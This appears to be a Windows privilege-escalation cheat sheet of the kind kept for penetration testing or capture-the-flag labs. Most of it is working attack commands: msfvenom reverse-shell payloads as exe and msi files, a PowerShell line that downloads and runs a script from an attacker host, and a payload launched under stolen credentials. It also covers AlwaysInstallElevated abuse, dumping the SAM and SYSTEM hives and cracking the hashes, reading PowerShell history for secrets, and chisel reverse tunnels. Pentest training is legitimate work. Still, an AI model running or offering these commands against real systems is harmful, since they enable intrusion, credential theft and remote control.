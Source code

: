 Recon

```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
```

```
https://github.com/itm4n/PrivescCheck
```

Forwarding service

[TCP/UDP tunnel over HTTP](https://github.com/jpillora/chisel)

PowerShell history file

```cmd
REM location
cd C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
REM file
type C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

[LAN Manager authentication level](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

- [NTLMv1 attack](https://github.com/SpiderLabs/Responder)

Check unusual programs

```
C:\Program Files
C:\Program Files (x86)
```

MSFVenom Reverse Shell Payload

```
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
```

:label: Running PowerShell as another user

reverse shell with credential

```cmd
REM create payload
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
REM change user, password and payload
powershell -c "$password = ConvertTo-SecureString '<password>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<user>', $password);Start-Process -FilePath "<payload>" -Credential $creds"
```

specify a computer name in the AD environment

prepare PowerShell reverse shell script file ```XXX.ps1```

execute command in the target host

```cmd
powershell -c "$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $pass);Invoke-Command -Computer <name> -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<attacker ip>/<XXX.ps1>') } -Credential $cred"
```

File owner access permission 

```cmd
REM check owner
dir /q /a
REM grant full access
icacls <file> /grant <user>:F
```

AlwaysInstallElevated

```shell
# AlwaysInstallElevated set to 1 in HKLM!
# AlwaysInstallElevated set to 1 in HKCU! 
# using msfvenom to create payload
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f msi -o reverse.msi
```

execute the command on the target

```powershell
# <payload> = reverse.msi
msiexec /quiet /qn /i <payload>
```

SAM (SYSTEM account) (HTB:Omni)

```cmd
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

```shell
python3 secretsdump.py -system /tmp/SYSTEM -sam /tmp/SAM LOCAL
hashcat -m 1000 ./hash ~/Documents/rockyou.txt
```

[Chisel](https://github.com/jpillora/chisel) (port forwarding)

```shell
# client
chmod +x chisel
./chisel server --reverse --port <attacker port>
# Windows target
.\chisel.exe client <attacker ip>:<attacker port> R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
# attacker ip = 10.10.10.10
./chisel server --reverse --port 10000
.\chisel.exe client 10.10.10.10:10000 R:4444:localhost:3306 R:5555:localhost:3307
# attacker 
localhost 4444 => remote 3306
localhost 5555 => remote 3307
```

Tools

[Chisel](https://github.com/jpillora/chisel):Pivoting 

Exploits

- CVE-2021-1732
- MS10-059